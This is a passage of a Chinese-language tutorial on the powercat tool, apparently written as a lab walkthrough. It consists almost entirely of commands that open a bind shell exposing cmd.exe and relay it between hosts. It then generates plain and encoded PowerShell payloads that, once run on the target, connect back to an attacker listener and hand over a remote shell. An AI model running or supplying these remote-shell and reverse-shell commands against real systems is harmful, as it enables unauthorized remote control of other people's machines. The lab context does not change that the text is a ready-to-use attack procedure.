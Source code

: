     
    
    powercat -l -v -p 4444 -e cmd.exe

在 win7 中执行以下命令

    
    
    powercat -l -v -p 5555 -r tcp:172.16.214.21:4444

最后在 kali 下连接 win7

    
    
    nc -v 172.16.214.2 5555

![](https://gitee.com/fuli009/images/raw/master/public/20211027204336.png)

### powercat 生成 payload

在攻击机上运行以下命令生成 shell.ps1 payload 文件

    
    
    powercat -l -p 4444 -e cmd -g > shell.ps1

将 shell.ps1 文件拷贝到目标主机上后，执行 shell.ps1 文件

之后在攻击机上运行以下命令即可获得 shell

    
    
    powercat -c rhost -p rport -v
    
    
    powercat -c 172.16.214.21 -p 4444 -v

反向连接也可以

在攻击机上生成 ps1 文件，并开启监听

    
    
    powercat -c rhost -p rport -ep -g > shell.ps1
    
    
    powercat -c 172.16.214.2 -p 4444 -ep -g > shell.ps1
    
    
    powercat -l -p 4444 -v

之后在靶机上，运行 ps1 文件就会上线了，如果不想生成文件，也可以使用 -ge 生成经过编码的 payload

在攻击机上生成 payload，并开启监听

    
    
    powercat -c 172.16.214.2 -p 4444 -ep -ge
    
    
    powercat -l -p 4444 -v

在靶机上执行刚生成的 payload

    
    
    powershell -e payload

![](https://gitee.com/fuli009/images/raw/master/public/20211027204337.png)
